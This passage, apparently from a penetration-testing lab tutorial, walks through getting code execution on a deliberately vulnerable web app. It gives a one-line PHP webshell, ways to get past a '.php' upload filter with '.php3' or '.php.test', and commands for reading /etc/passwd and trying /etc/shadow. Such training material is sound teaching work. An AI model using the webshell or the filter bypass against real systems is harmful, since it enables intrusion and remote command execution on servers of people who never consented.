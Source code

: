### Uploading a Webshell and Code Execution

Once access to the administration page is obtained, the next goal is to find a way to execute commands on the operating system.

We can see that there is a file upload function allowing a user to upload a picture, we can use this functionality to try to upload a PHP script. This PHP script once uploaded on the server will give us a way to run PHP code and commands.

First we need to create a PHP script to run commands. Below is the source code of a simple and minimal webshell:

```text
<?php
  system($_GET['cmd']);
?>
```

This script takes the content of the parameter cmd and executes it. It needs to be saved as a file with the extension .php, for example: `shell.php` can be used as a filename.

We can now use the upload functionality available at the page: [http://vulnerable/admin/new.php](http://vulnerable/admin/new.php) and try to upload this script.

We can see that the script has not been uploaded correctly on the server. The application prevent file with an extension `.php` to be uploaded. We can however try:

* `.php3` which will bypass a simple filter on `.php`
* `.php.test` which will bypass a simple filter on `.php` and Apache will still use `.php` since in this configuration it doesn't have an handler for `.test`

Now, we need to find where the PHP script, managing the upload put the file on the web server. We need to ensure that the file is directly available for web clients. We can visit the web page of the newly uploaded image to see where the `<img` tag is pointing to:

```text
      <div class="content">
        <h2 class="title">Last picture: Test shell</h2>

        <div class="inner" align="center">
          <p>
            <img src="admin/uploads/shell.php3" alt="Test shell" /> </p>
        </div>
     </div>
```

you can now access the page at the following address and start running commands using the cmd parameter. For example, accessing [http://vulnerable/admin/uploads/shell.php3?cmd=uname](http://vulnerable/admin/uploads/shell.php3?cmd=uname) will run the command `uname` on the operating system and return the current kernel \(`Linux`\).

Other commands can be used to retrieve more information:

* `cat /etc/passwd` to get a full list of the system's users;
* `uname -a` to get the version of the current kernel;
* `ls` to get the content of the current directory;
* ...

The webshell has the same privileges as the web server running the PHP script, you won't for example be able to retrieve the content of the file `/etc/shadow` since the web server doesn't have access to this file \(however you should still try in case an administrator made a mistake and changed the permissions on this file\).
